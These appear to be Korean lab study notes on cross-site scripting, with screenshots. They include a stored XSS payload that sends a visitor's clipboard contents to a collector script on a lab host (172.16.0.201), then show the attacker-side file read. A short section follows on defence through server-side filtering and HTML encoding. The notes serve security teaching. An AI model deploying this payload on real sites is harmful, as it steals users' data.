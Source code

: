   - web site에서 확인

    ![화면 캡처 2022-10-27 204443](../../assets/img/화면 캡처 2022-10-27 204443-1666871328875-55.png)

#### XSS 실제 적용 ll

- 접속한 사용자의 클립보드(ctrl+c)를 전송

  - xp] 게시글 작성

    ```
    <img name="i" width="0" height="0"></img><script>i.src="http://172.16.0.201/getcookie.php?clipboard="+clipboardData.getData("text")</script>
    ```

    ![화면 캡처 2022-10-27 211710](../../assets/img/화면 캡처 2022-10-27 211710.png)

  - 2003] 메모장을 글을 대충 쓰고 복사 (영어) ctrl+c 필수

    ![화면 캡처 2022-10-27 211811](../../assets/img/화면 캡처 2022-10-27 211811.png)

  - 2003] 작성한 글 읽기

    ![화면 캡처 2022-10-27 214139](../../assets/img/화면 캡처 2022-10-27 214139.png)

  - kali] 확인

    ```
    # cat /tmp/cookie.dat
    ```

    ![화면 캡처 2022-10-27 213853](../../assets/img/화면 캡처 2022-10-27 213853.png)

#### XSS 방어

- XSS 문제의 근원

  - 스크립트 태그의 실행

    ```
    <script></script>
    ```

- 방어의 핵심

  Server Side Validation

  - 서버에서 사용자의 입력 값을 검증 함 → str_replace( ), preg_replace() 함수 등

    > Black List 방식으로 입력되는 값을 필터링 함

    > 공격 스크립트에 사용되는 태그 또는 메타문자를 필터링 해야 함

  - 출력 값을 HTML로 Encoding 함 → htmlspecialchars(), htmlentities() 함수 등

    > 다른 Encoding을 사용한 경우 <Meta>로 사용한 encoding 방식을 명시해야 함
